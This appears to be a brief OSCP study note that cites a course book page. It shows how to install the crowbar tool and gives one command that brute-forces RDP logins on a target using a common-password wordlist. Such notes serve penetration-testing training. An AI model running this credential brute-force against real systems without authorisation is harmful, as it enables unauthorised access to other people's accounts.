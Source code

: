 OSCP Book pg 581
```
sudo apt install crowbar
```
```
crowbar -b rdp -s $TARGET/32 -u $USER -C /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -n 1
```